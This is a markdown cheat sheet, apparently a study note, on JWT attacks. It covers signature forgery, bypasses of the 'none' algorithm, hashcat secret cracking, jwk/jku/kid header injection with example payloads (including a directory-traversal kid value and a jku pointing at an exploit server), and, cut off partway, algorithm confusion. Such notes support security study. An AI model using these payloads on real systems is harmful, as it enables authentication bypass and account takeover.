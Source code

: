 # Content 
- [jwt structure](#jwt-structure)
- [Accepting arbitrary signatures](#accepting-arbitrary-signatures)
- [Accepting tokens with no signature](#accepting-tokens-with-no-signature)
- [Brute-forcing secret keys](#brute-forcing-secret-keys)
- [JWT header parameter injections](#jwt-header-parameter-injections)
  - [Injecting self-signed JWTs via the jwk parameter](#injecting-self-signed-jwts-via-the-jwk-parameter)
  - [Injecting self-signed JWTs via the jku parameter](#injecting-self-signed-jwts-via-the-jku-parameter)
  - [Injecting self-signed JWTs via the kid parameter](#injecting-self-signed-jwts-via-the-kid-parameter)
- [Algorithm confusion attacks](#algorithm-confusion-attacks)




## jwt structure
1) Header



| Header Parameter | Description                                             |
|------------------|---------------------------------------------------------|
| `alg`                        | Algorithm used for signing/verifying the token (e.g., HS256).     |
| `typ`                        | Type of the token (usually "JWT").                     |
| `cty`                        | Content Type, indicating the media type of the token.  |
| `kid` (Key ID)               | Key ID, used to identify the key for verification.      |
| `jwk` (JSON Web Key)         | Provides an embedded JSON object representing the key.                                |
| `jku` (JSON Web Key Set URL) | Provides a URL from which servers can fetch a set of keys containing the correct key. |



2) Payload
- Registered Claims


| Claim             | Description                                                |
|-------------------|------------------------------------------------------------|
| `iss` (Issuer)    | The entity that issued the JWT.                            |
| `sub` (Subject)   | The subject of the JWT, often a user ID.                   |
| `aud` (Audience)  | The intended audience for the JWT.                        |
| `exp` (Expiration) | The time after which the token should not be accepted.   |
| `nbf` (Not Before) | The time before which the token should not be accepted. |
| `iat` (Issued At) | The time at which the JWT was issued.                     |
| `jti` (JWT ID)     | A unique identifier for the token.                         |

- **Public claims:** are intended for use across different applications or by multiple parties.
- **Private Claims:** are specific to a particular application, organization, or use case, and their names are not required to follow standardized conventions.  

3) Signature


JWT token Example : 
```jwt
Header: {
  "alg": "HS256",
  "typ": "JWT"
}

Payload: {
  "iss": "example.com",
  "sub": "1234567890",
  "aud": "myapp",
  "exp": 1677648242,
  "nbf": 1677644642,
  "iat": 1677644642,
  "jti": "a1b2c3d4e5"
  // Custom claims:
  "username": "johndoe",
  "role": "admin"
}

Signature: (Generated using the HMAC-SHA256 algorithm)

```

## Accepting arbitrary signatures
- edit `sub` to another user ex:admin 
- sign the jwt token and send it

## Accepting tokens with no signature
- Setting the alg parameter to "none" is discouraged due to its inherent security risks. 
- Many servers reject unsigned tokens to prevent vulnerabilities. 
- This filtering is based on string parsing, making it possible to bypass such filters using obfuscation techniques like mixed capitalization and unexpected encodings.
```
None
none
NONE

```
## Brute-forcing secret keys
- [jwt secrets list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
```shell
hashcat -a 0 -m 16500 <jwt> <wordlist> --show

=> <jwt>:<identified-secret>
```


# JWT header parameter injections
## Injecting self-signed JWTs via the jwk parameter
- servers should only use a limited whitelist of public keys to verify JWT signatures.
- misconfigured servers sometimes use any key that's embedded in the jwk parameter.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding the matching public key in the jwk header.

```json
{
    "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
        "n": "qFS9f6gM6Ez6GuNQPJEHfVnwKXE0B7kUIWs4DWigfKx2fNoi5_N72_y4r2OB2IZn0PFBswo1QFTAIVCHqwEMozN16yVWkoRIwzfVeXj7cpTlr7JpWVvbkiEM0SkMgAvP0Rm2wua7d79C5KIQy6kCD7u63Ma45i0EIxpBDqFK788"
    }
}
```
- `e`: The public exponent of the RSA key.
- `n`: The modulus of the RSA key.
- `kid` in the header matches the `kid` in the `jwk`

## Injecting self-signed JWTs via the jku parameter
- some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key.
- More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding `jku` pointing to a url containing the public key (make sure the `kid` is the same at both).

example of exploit:
```json
{
    "jku": "https://exploit-0a97008704342d7880177f19017b0059.exploit-server.net/exploit.json",
    "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
    "alg": "RS256"
}
```


example of the file containing the keys :
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```
- JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`.

## Injecting self-signed JWTs via the kid parameter
- `kid` parameter may point to a particular entry in a database, or a name of a file
- If this parameter is also vulnerable to directory traversal, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.
  - if the server also supports JWTs signed using a **symmetric algorithm**.
  - point the `kid` parameter to a predictable, static file, EX: `/dev/null`
  - sign the JWT using a secret that matches the contents of this file.  
```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
- the `kid` header parameter is also a potential vector for **SQL injection** attacks. 

## Algorithm confusion attacks
#### 1) **Obtain the server's public key**

Servers sometimes expose their public keys as JSON Web Key (JWK) objects via a standard endpoint mapped to `/jwks.json` or `/.well-known/jwks.json`

#### 2) **Convert the public key to a suitable format**

- In order for the attack to work, the version of the key that you use to sign the JWT must be identical to the server's local copy. 
- In addition to being in the same format, every single byte must match, including any non-printing characters. 
